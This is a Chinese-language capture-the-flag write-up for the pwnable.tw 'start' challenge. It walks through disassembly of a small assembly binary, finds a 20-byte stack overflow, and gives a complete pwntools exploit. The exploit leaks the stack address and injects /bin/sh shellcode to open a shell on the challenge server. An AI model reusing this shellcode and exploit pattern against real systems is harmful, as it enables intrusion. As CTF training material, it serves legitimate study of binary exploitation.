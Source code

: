 ```yaml
---
title: pwnable.tw start
tags: [CTF, pwn]
layout: post
categories: writeups
---
```



# Start

用IDA打开，程序其实是单纯用汇编写的，通过系统调用来输出`Let's start the CTF:`并获取输入。

``` asm
.text:08048060 _start          proc near
.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    3A465443h
.text:08048073                 push    20656874h
.text:08048078                 push    20747261h
.text:0804807D                 push    74732073h
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 14h         ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 3Ch
.text:08048095                 mov     al, 3
.text:08048097                 int     80h             ; LINUX -
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
```

使用`pattern_create`和`pattern_offset`获取到溢出的偏移是`20`


``` python
ret = 0x08048087

payload1 = 'A' * 20
payload1 += p32(ret)

p.recvuntil(':')
p.sendline(payload1)
leak = u32(p.recv(4))
print hex(leak)
```

在`_start`函数开始进行了`push    esp`和`push    offset _exit`，因此`retn`时会回到`_exit`函数继续执行。

因此，只要我们将这个`retn`返回地址覆盖，就可以转到任意地址继续执行。

这里我们将其覆盖为`0x08048087`，为什么呢？这里是`.text:08048087                 mov     ecx, esp        ; addr`，因为在其下的`sys_write`函数可以取出`esp`赋给`ecx`，然后输出`ecx`的内容。因此我们可以通过这样，泄漏出`saved esp`的位置

``` python
from pwn import *

debug = False
local = False
x86 = True

if debug:
    context.log_level = 'debug'
else:
    context.log_level = 'info'
if x86:
    libc = ELF('/lib32/libc.so.6')
    #libc = ELF('./libc-2.23.so')
else:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
if local:
    p = process('./start')
else:
    p = remote('chall.pwnable.tw',10000)


shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
ret = 0x08048087 # mov     ecx, esp
payload1 = 'a'*20 + p32(ret) 
p.recvuntil(':')
p.send(payload1)
leak = u32(p.recv(4)) # leak saved_esp

#leak+20是因为retn前add     esp, 14h
payload2 = 'a'*20 + p32(leak+20)  + shellcode
p.send(payload2)
p.interactive()
```